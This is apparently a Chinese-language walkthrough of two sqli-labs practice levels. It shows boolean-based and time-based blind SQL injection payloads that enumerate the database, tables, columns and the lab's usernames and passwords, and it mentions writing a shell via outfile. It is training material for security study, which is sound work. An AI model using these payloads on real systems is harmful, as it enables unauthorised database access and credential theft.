 **ps：**别人答案是使用outfile写shell？





##### 8. Boolian Based - Single Quotes

这题只有成功会显示，失败就啥东西都没有，很恶心。

并且在你构造语句的时候，在处理完`'`之后，需要在语句结尾补齐`;`否则还是会语句有错。

之后的是就是布尔。

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";	
```

```sql
// 判断库名长度  使用Burp Suite爆破，步长1,循环判断长度
and (length(database() = 8)); --+
// 判断库名  使用Burp Suite爆破，步长1，循环判断字符内容。
and (substr(database(),1,1)='a'); --+
// 结果： security
// 判断表名长度
and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 6 --+
// 爆破表名
and (substr( (select table_name from information_schema.tables where table_schema=database() limit 0,1), 1,1 ) = 'a') --+
// 结果：emails,referers,uagents,users
// 爆破user表列名
and (substr( (select column_name from information_schema.columns where table_name="users" limit 0,1),1,1 )='a'); --+
// 结果： id,username,password
// 爆破user数据
and (substr( (select username from users limit 0,1),1,1 ) = 'a');--+
and (substr( (select password from users limit 0,1),1,1 ) = 'a');--+
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```







##### 9. Bind - Time Based - Singe Quote

无论成功，还是失败，返回的内容都是一样的，绝望。。。只能使用最蠢的时间。

```sql
// 判断库名  使用Burp Suite爆破，步长1，根据响应返回结果长度筛选
and if( substr(database(),1,1), sleep(5), 1); --+	
// 爆破表名 
and if( substr( (select group_concat(table_name) from information_schema.tables where table_schema=database() ),1,1)='e',sleep(5),1); --+
// 结果：emails,referers,uagents,users
// 爆破users列名
and if( substr( (select group_concat(column_name) from information_schema.columns where table_name="users"),1,1)='i', sleep(5),1); --+
// 结果： id,username,password
// 爆破users数据
and if( substr( (select group_concat(username) from security.users),1,1)='d',sleep(5),1); --+
and if( substr( (select group_concat(password) from security.users),1,1)='d',sleep(5),1); --+
```